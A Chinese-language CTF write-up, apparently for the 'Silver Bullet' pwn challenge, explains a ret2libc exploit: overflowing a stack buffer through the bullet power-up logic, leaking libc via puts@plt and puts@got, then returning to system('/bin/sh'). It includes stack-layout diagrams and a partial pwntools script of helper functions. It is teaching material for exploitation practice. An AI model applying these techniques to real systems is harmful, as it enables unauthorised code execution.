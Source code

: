 ## exploitation

考虑ret2libc，于是需要：

1. 达成栈溢出，泄露libc基地址
2. 回到main函数，再次达成栈溢出，同时ret2system

### 达成栈溢出

1. create_bullet, 设置内容为`"a"*0x2f`
2. power_up，设置内容为`"a"`
3. 再次power_up时，即可进行栈溢出

### 泄露libc基地址

泄露libc地址可以考虑调用`puts`，即将main栈上的返回地址改为`puts@plt`，同时设置参数为`puts@got`，原本栈布局如下：

```
| bullet->s[0] | ... | ... | bullet->s[0x2f] | bullet->power | saved ebp | return address |
```

通过栈溢出变更为：

```
| bullet->s[0] | ... | ... | bullet->s[0x2f] | 0xffffff|1 Byte| padding  | puts@plt | main_address | puts@got
```

此处已经修改 `power = 0xffffff|1byte`，大于怪物的hp，因此能够推出main中的大循环，执行`return 0`。return之后便会调用`puts(address(puts@got))`，同时再次回到main函数。

### 再次栈溢出

这部分就是重复之前的达成栈溢出的步骤，随后覆盖返回地址为`system`，参数为`address("/bin/sh")`

脚本如下：

```python
from pwn import *

context.arch = 'i386'
context.terminal = ['tmux','splitw','-h']
# context.log_level = "debug"
def choice(io,ch):
    io.recvuntil(b"Your choice :")
    io.sendline(str(ch).encode())

def create_bullet(io, content):
    choice(io,1)
    io.recvuntil(b"Give me your description of bullet :")
    io.send(content)
    io.recvuntil(b"Your power is : ")
    power = int(io.recvline().strip(b"\n").decode(),10)
    return power

def power_up(io,content):
    choice(io,2)
    io.recvuntil(b"Give me your another description of bullet :")
    io.send(content)
    io.recvuntil(b"Your new power is : ")
    power = int(io.recvline().strip(b"\n").decode(),10)
    io.recvuntil(b"Enjoy it !\n")

def gdb_scripts(_bin):
    # scripts = f"b *{_bin.plt['puts']}\n"
    scripts = f"b *0x8048A18\n"
    scripts+= f"c\n"
    return scripts
```